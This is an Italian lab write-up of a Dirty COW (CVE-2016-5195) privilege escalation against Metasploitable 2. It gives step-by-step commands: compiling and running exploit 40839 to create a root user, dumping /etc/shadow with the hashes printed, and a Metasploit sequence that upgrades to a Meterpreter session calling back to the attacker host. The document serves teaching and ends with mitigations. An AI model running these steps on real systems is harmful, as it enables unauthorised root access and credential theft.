


# Privilege Escalation: Dirty COW (CVE-2016-5195)

Questo progetto documenta la procedura di Local Privilege Escalation sfruttando la vulnerabilità Dirty COW su un sistema Linux vulnerabile.

Cos'è il Dirty COW?

Si tratta di una vulnerabilità di tipo Race Condition nel modo in cui il kernel Linux gestisce il meccanismo di Copy-on-Write (COW). Sfruttando un difetto nella gestione della memoria, un utente locale può ottenere permessi di scrittura su file di sola lettura (come `/etc/passwd`), elevando i propri privilegi a quelli di root.

### Scenario del Lab
- Attacker Machine: Kali Linux
- Target Machine: Metasploitable 2

---

## 1. Enumerazione e Ricerca Exploit

Identifichiamo la versione del kernel per confermare la vulnerabilità (se il kernel è inferiore al 4.8.3, il sistema è potenzialmente vulnerabile):

```bash
ssh -o HostKeyAlgorithms=+ssh-rsa msfadmin@192.168.23.129
# password: msfadmin
uname -a
```

Output: `Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux` (Vulnerabile)

Sul terminale di Kali, cerchiamo l'exploit adatto:

```bash
searchsploit Linux Kernel 2.6.24
```



Il file `40839.c` (noto come Firefart) è il più affidabile poiché crea un nuovo utente root sovrascrivendo `/etc/passwd`.

```bash
searchsploit -p 40839
```

## 2. Trasferimento e Compilazione

Spostiamo il codice sorgente sulla macchina target per compilarlo localmente.

Trasferiamo il codice sorgente sulla macchina target:

```bash
scp -o HostKeyAlgorithms=+ssh-rsa /usr/share/exploitdb/exploits/linux/local/40839.c msfadmin@192.168.23.129:/tmp/
# password: msfadmin
```

Compiliamo il sorgente all'interno della directory `/tmp/` del target:

```bash
cd /tmp
gcc -pthread 40839.c -o dirtycow -lcrypt
```

## 3. Exploitation (Privilege Escalation)

Eseguiamo il binario e impostiamo la password per il nuovo utente amministratore:

```bash
./dirtycow
# Inserire una password a scelta, es: password123
```

L'exploit effettua il backup di `/etc/passwd` in `/tmp/passwd.bak` e sovrascrive l'utente root originale con l'utente `firefart`.

Passiamo al nuovo utente creato:

```bash
su firefart
# Inserire password123
whoami
id
```

Risultato: `uid=0(firefart) gid=0(root) groups=0(root)`



## 4. Post-Exploitation e Analisi

Una volta ottenuti i privilegi massimi, procediamo con l'esfiltrazione dei dati.

Visualizziamo il file delle password criptate per il cracking offline:

```bash
cat /etc/shadow
```

### Risultati

```txt
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:14742:0:99999:7:::
sync:*:14684:0:99999:7:::
games:*:14684:0:99999:7:::
man:*:14684:0:99999:7:::
lp:*:14684:0:99999:7:::
mail:*:14684:0:99999:7:::
news:*:14684:0:99999:7:::
uucp:*:14684:0:99999:7:::
proxy:*:14684:0:99999:7:::
www-data:*:14684:0:99999:7:::
backup:*:14684:0:99999:7:::
list:*:14684:0:99999:7:::
irc:*:14684:0:99999:7:::
gnats:*:14684:0:99999:7:::
nobody:*:14684:0:99999:7:::
libuuid:!:14684:0:99999:7:::
dhcp:*:14684:0:99999:7:::
syslog:*:14684:0:99999:7:::
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:14742:0:99999:7:::
sshd:*:14684:0:99999:7:::
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:14684:0:99999:7:::
bind:*:14685:0:99999:7:::
postfix:*:14685:0:99999:7:::
ftp:*:14685:0:99999:7:::
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:14685:0:99999:7:::
mysql:!:14685:0:99999:7:::
tomcat55:*:14691:0:99999:7:::
distccd:*:14698:0:99999:7:::
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:14699:0:99999:7:::
service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:14715:0:99999:7:::
telnetd:*:14715:0:99999:7:::
proftpd:!:14727:0:99999:7:::
statd:*:15474:0:99999:7:::
snmp:*:15480:0:99999:7:::
```

---

## Gestione tramite Metasploit

In un contesto professionale, Metasploit viene utilizzato per gestire la sessione ed esfiltrare i dati in modo automatizzato.

```bash
msfconsole

use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.23.129
set USERNAME msfadmin
set PASSWORD msfadmin
exploit

# Upgrade a Meterpreter
back
use post/multi/manage/shell_to_meterpreter
set SESSION 1
set LHOST 192.168.23.128
exploit

# Interazione con Meterpreter
sessions -i 2

# Caricamento exploit
upload /usr/share/exploitdb/exploits/linux/local/40839.c /tmp/40839.c

# Accesso alla shell e compilazione
shell
cd /tmp
gcc -pthread 40839.c -o dirtycow -lcrypt
./dirtycow
# Inserire password: password123

# Spawning TTY Shell
python -c 'import pty; pty.spawn("/bin/bash")'

# Cambio utente a Root
su firefart
# Password: password123

# Esfiltrazione Database Password
cat /etc/shadow
```

---

## 5. Ripristino e Cleanup

È fondamentale ripristinare il sistema per non lasciare l'utente `firefart` attivo:

```bash
mv /tmp/passwd.bak /etc/passwd
rm /tmp/40839.c /tmp/dirtycow
exit
```

---

## Conclusione e Mitigazione

Per proteggersi da Dirty COW, è necessario:
1. Aggiornare il kernel a una versione successiva al 2016.
2. Monitorare tentativi di scrittura anomali su file di sistema tramite auditd.
3. Utilizzare moduli di sicurezza come SELinux o AppArmor.

### Disclaimer

Questa documentazione è a scopo puramente didattico. I test sono stati eseguiti in un ambiente di laboratorio isolato.